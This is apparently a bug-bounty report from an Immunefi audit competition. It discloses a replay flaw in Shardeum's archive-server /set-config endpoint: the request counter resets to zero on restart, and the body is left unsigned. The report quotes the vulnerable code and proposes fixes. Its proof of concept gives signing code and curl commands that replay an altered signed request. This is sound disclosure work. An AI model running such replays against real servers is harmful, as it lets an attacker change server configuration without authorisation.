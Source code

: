 # #35824 \[W\&A-Medium] \`/set-config\` replay attack is possible in production mode after archiver restart

**Submitted on Oct 9th 2024 at 20:09:56 UTC by @anton\_quantish for** [**Audit Comp | Shardeum: Ancillaries II**](https://immunefi.com/audit-competition/shardeum-ancillaries-ii-boost)

* **Report ID:** #35824
* **Report Type:** Websites and Applications
* **Report severity:** Medium
* **Target:** https://github.com/shardeum/archive-server/tree/dev
* **Impacts:**
  * Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description

Hey team,

## Brief/Intro

The attacker can replay the legitimate \`/set-config\` requests (even altering the config params arbitrarily) in production mode after every archiver restart.

## Vulnerability Details

Both \`GET /config\` and \`PATCH /set-config\` API handlers contain middleware where it's checked if the archiver is in the debug mode or not. If it's not then this middleware checks the request signature before passing it through: https://github.com/shardeum/archive-server/blob/0337daa477b3a30f8fb65b87c23b021a261441bd/src/DebugMode.ts#L18-L56 \`\`\`js if (!isDebug) { try { //auth my by checking a signature if (\_req.query.sig != null && \_req.query.sig\_counter != null) { const ownerPk = getDevPublicKey() const requestSig = \_req.query.sig //check if counter is valid const sigObj = { route: \_req.routerPath, count: \_req.query.sig\_counter, sign: { owner: ownerPk, sig: requestSig }, } const currentCounter = parseInt(sigObj.count) //reguire a larger counter than before. This prevents replay attacks const currentTime = new Date().getTime() if (currentCounter > lastCounter && currentCounter <= currentTime + MAX\_COUNTER\_BUFFER\_MILLISECONDS) { const verified = Crypto.verify(sigObj) if (!verified) { throw new Error('FORBIDDEN. signature authentication is failed.') } } else { console.log( \`isDebugMiddleware: currentCounter=${currentCounter}, lastCounter=${lastCounter}, currentTime=${currentTime}\` ) throw new Error('FORBIDDEN. signature counter is failed.') } lastCounter = currentCounter //update counter so we can't use it again return \`\`\`

The signature signs an object containing two fields: the \`route\` (\`/config\` or \`set-config\`) and the \`count\` which is actually the request signing timestamp. After every successful request the \`lastCounter\` global variable is updated to the \`count\` from the request and for the further ones the \`count\` is checked to be greater than \`lastCounter\`. The comment in the code above says it's to prevent the replay-attacks.

The vulnerability here is than the initial value of the \`lastCounter\` is 0: https://github.com/shardeum/archive-server/blob/0337daa477b3a30f8fb65b87c23b021a261441bd/src/DebugMode.ts#L5

It means that after every archiver restart any of the previous valid requests could be replayed because all the conditions are met:

* any \`count\` despite whatever it was will be greater than \`lastCounter\` (which is 0);
* the signature is valid.

What is even worse is that the request doesn't need to be replayed exactly the same but could be altered arbitrarily. That's because of the only signed fields are counter and the route, but not the body of the request (the applying config).

In the \`/set-config\` request handler itself the \`sign\` field is extracted from the request body but then... it's not longer used: https://github.com/shardeum/archive-server/blob/0337daa477b3a30f8fb65b87c23b021a261441bd/src/API.ts#L984-L1019 \`\`\`js server.patch( '/set-config', { preHandler: async (\_request, reply) => { isDebugMiddleware(\_request, reply) }, }, async (\_request: ConfigPatchRequest, reply) => { const RESTRICTED\_PARAMS = \[ 'ARCHIVER\_IP', 'ARCHIVER\_PORT', 'ARCHIVER\_HASH\_KEY', 'ARCHIVER\_SECRET\_KEY', 'ARCHIVER\_PUBLIC\_KEY', ] try { const { sign, ...newConfig } = \_request.body const validKeys = new Set(Object.keys(config)) const payloadKeys = Object.keys(newConfig) const invalidKeys = payloadKeys.filter( (key) => !validKeys.has(key) || RESTRICTED\_PARAMS.includes(key) )

```
    if (invalidKeys.length &gt; 0)
      throw new Error(&#x60;Invalid/Unauthorised config properties provided: ${invalidKeys.join(&#x27;, &#x27;)}&#x60;)

    if (config.VERBOSE)
      Logger.mainLogger.debug(&#x27;Archiver config update executed: &#x27;, JSON.stringify(newConfig))

    const updatedConfig &#x3D; updateConfig(newConfig)
    reply.send({ success: true, ...updatedConfig, ARCHIVER_SECRET_KEY: &#x27;&#x27; })
  } catch (error) {
    reply.status(400).send({ success: false, reason: error.message })
  }
}
```

) \`\`\`

## Impact Details

The attacker who is able to intercept just a single one \`/set-config\` valid request is then able to arbitrarily alter the archiver config after every archiver restart.

I don't understand all the attacker models well and thus I don't know how easy it's to intercept the request but I see at least that:

* the archiver server works over the plain HTTP (unencrypted);
* there's the protection from the replay attack implemented.

That's why I believe it's possible to intercept such a request and the protection implemented should work well.

I downgraded the severity to High though because there're obvious attack preconditions/limitations.

## Remediation

I believe you can init the \`lastCounter\` with the current time on the archiver start - then all the previous requests would have lower counter and wouldn't pass the check.

Also, I'd also check the configuration body signature because the endpoint would be vulnerable to MitM or race condition otherwise, when the attacker can see the legitimate request and try to send his own malicious config faster . Or maybe it can drop the original request and send his own one. Anyway, I think the signature of the config body should also be checked.

## Proof of Concept

## Proof of Concept

1. Generate the valid counter and signature with node REPL shell: \`\`\`js const crypto = require('@shardus/crypto-utils') crypto.init(YOUR\_ARCHIVER\_HASH\_KEY) obj = {route: '/set-config', count: (new Date().getTime()).toString()} crypto.signObj(obj, YOUR\_ARCHIVER\_SECRET\_KEY, YOUR\_ARCHIVER\_PUBLIC\_KEY) obj \`\`\` the result is something like \`\`\`js { route: '/set-config', count: '1728500989222', sign: { owner: '31ba246ea6baef8f86a8b6cb2b7c84b0223c5975f8c6974d74d856efe94728e1', sig: '01cdd7d7cee5b076b9716f66b3d09ebc726fec2c5bfd74437751e43d1c6f4ebef650097d6ad9f718fc7fb792f7697d8051f36d5abc0048c3bf21c30c6d972e03eb3bd6973dd7f359ea8825bdfaed6bdee66f95a906c603028c80c5fa9db006f6' } } \`\`\`
2. Send the test (legitimate) request with CURL: \`\`\`bash curl 'http://127.0.0.1:4000/set-config?sig\_counter=1728500989222\&sig=01cdd7d7cee5b076b9716f66b3d09ebc726fec2c5bfd74437751e43d1c6f4ebef650097d6ad9f718fc7fb792f7697d8051f36d5abc0048c3bf21c30c6d972e03eb3bd6973dd7f359ea8825bdfaed6bdee66f95a906c603028c80c5fa9db006f6' -XPATCH -H 'Content-Type: application/json' -d '{"VERBOSE": false}' \`\`\` Make sure the response contains \`"VERBOSE": false\`
3. Send it again and make sure it's forbidden because of invalid counter.
4. Restart the network with \`shardus stop && shardus start 10\`
5. Send the request again but altered for instance \`\`\`bash curl 'http://127.0.0.1:4000/set-config?sig\_counter=1728500989222\&sig=01cdd7d7cee5b076b9716f66b3d09ebc726fec2c5bfd74437751e43d1c6f4ebef650097d6ad9f718fc7fb792f7697d8051f36d5abc0048c3bf21c30c6d972e03eb3bd6973dd7f359ea8825bdfaed6bdee66f95a906c603028c80c5fa9db006f6' -XPATCH -H 'Content-Type: application/json' -d '{"VERBOSE": true}' \`\`\` Make sure the response now has the \`"VERBOSE": true\` field.
